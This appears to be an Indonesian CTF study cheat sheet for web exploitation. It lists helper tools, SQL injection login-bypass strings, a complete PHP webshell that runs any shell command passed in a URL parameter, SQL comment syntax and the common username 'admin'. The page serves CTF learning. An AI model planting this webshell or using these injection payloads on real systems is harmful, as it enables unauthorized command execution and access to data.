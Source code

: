 ```yaml
---
title: Semua Tentang CTF - Kategori Web Exploitation
published: true
---
```

# Tools Yang Umum Digunakan
Kategori Web Exploitation:
1. [JWT (JSON Web Token)](https://token.dev/){:target="_blank"}
2. [Deobfuscate Kode JS](https://deobfuscate.io/){:target="_blank"}

# Kode Penting
SQL Injection
```sql
' OR 1=1--
```

Modified SQL Injection (by me)
```sql
' OR 1=1 OR '1'='1
```
PHP Webshell (Execute Linux Command) dari [joswr1ght](gist.github.com/joswr1ght).

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

# Catatan Tambahan Untuk Belajar
## Comment Pada SQL
```sql
SELECT * FROM Customers -- WHERE City='Berlin';
```
```sql
/*Select all the columns
of all the records
in the Customers table:*/
SELECT * FROM Customers;
```
```sql
SELECT CustomerName, /*City,*/ Country FROM Customers;
```
## Username yang Umum Digunakan
```admin``` paling umum digunakan.